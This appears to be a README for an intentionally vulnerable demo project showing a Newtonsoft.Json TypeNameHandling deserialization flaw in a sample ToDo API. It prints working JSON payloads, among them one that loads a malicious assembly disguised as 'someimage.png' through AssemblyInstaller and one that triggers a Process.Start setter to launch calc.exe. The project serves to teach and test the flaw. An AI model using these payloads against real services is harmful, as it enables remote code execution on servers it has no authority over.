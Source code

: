 # Introduction

This project demonstrates serialization vulnerabilities using Newtonsoft.Json and BinarySerialization. The Todo project is baseed on the starter tutorial available here:

[Create a controller based API](https://learn.microsoft.com/en-us/aspnet/core/tutorials/first-web-api?view=aspnetcore-7.0&tabs=visual-studio)

These examples were assembled based on serialization vulnerabilities highlighted in the [ysoserial.net](https://github.com/pwntester/ysoserial.net) git repo. This example reproduces a remote code execution vulnerability by exploiting the Newtonsoft.Json serializer. 

Prequistes

Install .NET Framework 4.8.1:

``` 
winget install Microsoft.DotNet.Framework.DeveloperPack_4 -v 4.8.1
```

The [TypeNameHandling property](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm) exposes a deserialization vulnerability then the value is set to anything other than _None_. This informs the deserialization process to resolve a type using the _$type_ property.
``` JSON
{
    "$type": "System.IO.FileInfo, System.IO.FileSystem",
    "fileName": "rce-test.txt"
}
```
This example creates a _System.IO.FIleINfo_ instance and set the _FIleName_ property to "rce_test.txt." This could potentially be used to exfiltrate file information on the host environment. The examples in this repo make use of a generic dictionary to pass malicious payloads. The _TodItem_ class has twp vulnerabile properties. _Metadata_ accepts a _Dictionary<string, object>_ and _BinaryMetadata_ accepts a class that uses a _BinaryFormatter_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
    public List<MetadataItem>? BinaryMetadata { get; set; }
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
# How to Reproduce

This project uses a simple ToDo REST API to demonstrate this JSON RCE vulnerability. The MaliciousAssembly project includes this property which calls _Process.Start_ using the property value.

``` C#
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

## Upload malicious file

During complication, this assembly is placed in the bin directory of the ToDo web api with the file name _someimage.png_. This substitutes for a REST API with a file upload endpoint. In a production environment, this could be placed in Azure Blob storage and referenced by a URL.

## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  
        {
            "$type": "System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" }
    }
}
```

These calls are available in the _todo-badpath.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## JSON Vunlnerability

The JSON vulnerability is exposed in Newtonsoft.Json through the use of `TypeNameResolver.`

With .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-6.0#configure-json-deserialization-options-for-body-binding).

